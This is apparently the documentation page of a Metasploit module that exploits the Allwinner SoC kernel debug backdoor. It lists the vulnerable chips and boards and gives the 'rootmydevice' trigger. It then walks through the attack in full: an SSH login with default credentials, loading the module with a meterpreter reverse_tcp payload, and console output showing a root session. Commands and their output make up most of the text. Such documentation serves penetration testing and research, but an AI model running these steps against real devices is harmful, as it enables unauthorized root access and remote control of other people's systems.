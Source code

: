   Vulnerable Allwinner SoC chips: H3, A83T or H8 which rely on Kernel 3.4
  Vulnerable OS: all OS images available for Orange Pis,
				 any for FriendlyARM's NanoPi M1,
				 SinoVoip's M2+ and M3,
				 Cuebietech's Cubietruck +
				 Linksprite's pcDuino8 Uno
  Exploitation may be possible against Dragon (x10) and Allwinner Android tablets

This module attempts to exploit a debug backdoor privilege escalation in Allwinner SoC based devices. Implements the Allwinner privilege escalation as documented in [Metasploit issue #6869](https://github.com/rapid7/metasploit-framework/issues/6869).  It is a simple debug kernel module that, when "rootmydevice" is echoed to the process, it escalates the shell to root.

## Usage

To use this module, you need a vulnerable device.  An Orange Pi (PC model) running Lubuntu 14.04 v0.8.0 works, but other OSes for the device (as well as other devices) are also vulnerable.

- `use auxiliary/scanner/ssh/ssh_login`

```
msf auxiliary(ssh_login) > set username orangepi
username => orangepi
msf auxiliary(ssh_login) > set password orangepi
password => orangepi
msf auxiliary(ssh_login) > set rhosts 192.168.2.21
rhosts => 192.168.2.21
msf auxiliary(ssh_login) > exploit

[*] 192.168.2.21:22 SSH - Starting bruteforce
[+] 192.168.2.21:22 SSH - Success: 'orangepi:orangepi' 'uid=1001(orangepi) gid=1001(orangepi) groups=1001(orangepi),27(sudo),29(audio) Linux orangepi 3.4.39 #41 SMP PREEMPT Sun Jun 21 13:09:26 HKT 2015 armv7l armv7l armv7l GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.229:33673 -> 192.168.2.21:22) at 2016-05-17 21:55:27 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- `use exploit/multi/local/allwinner_backdoor`

```
msf exploit(allwinner_backdoor) > set verbose true
verbose => true
msf exploit(allwinner_backdoor) > set session 1
session => 1
msf exploit(allwinner_backdoor) > set payload linux/armle/meterpreter/reverse_tcp
payload => linux/armle/meterpreter/reverse_tcp
msf exploit(allwinner_backdoor) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(allwinner_backdoor) > check
[*]  The target appears to be vulnerable.
msf exploit(allwinner_backdoor) > exploit
```

## Successful exploitation:

```
[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (374540 bytes) to 192.168.2.248
[+] Backdoor Found, writing payload to /tmp/odzVx.elf
[*] Max line length is 65537
[*] Writing 284 bytes in 1 chunks of 843 bytes (octal-encoded), using printf
[+] Escalating
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (374540 bytes) to 192.168.2.248
[*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.248:49472) at 2016-09-22 21:56:50 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.2.248
OS           : Ubuntu 14.04 (Linux 3.4.39)
Architecture : armv7l
Meterpreter  : armle/linux
```
